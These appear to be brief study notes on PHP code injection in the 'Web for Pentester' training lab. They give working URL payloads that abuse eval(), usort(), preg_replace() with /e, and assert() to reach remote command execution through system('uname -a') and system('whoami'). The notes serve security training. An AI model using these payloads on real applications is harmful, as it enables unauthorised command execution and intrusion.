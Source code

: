 Code Injection 
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

Web for Penterster 
example 1 
eval() - evaluates a string as PHP code

payload- " .phpinfo(). "
payload- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


example 2 
usort()- Sort an array by values using a user-defined comparison function

payload-example2.php?order=id,system('whoami')
payload- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


example 3
preg_replace() — Perform a regular expression search and replace

payload - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"
payload - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


example 4
assert() - Checks if assertion is FALSE
payload - example4.php?name=hacker'.phpinfo().'
payload - example4.php?name=hacker'.system('uname -a').'
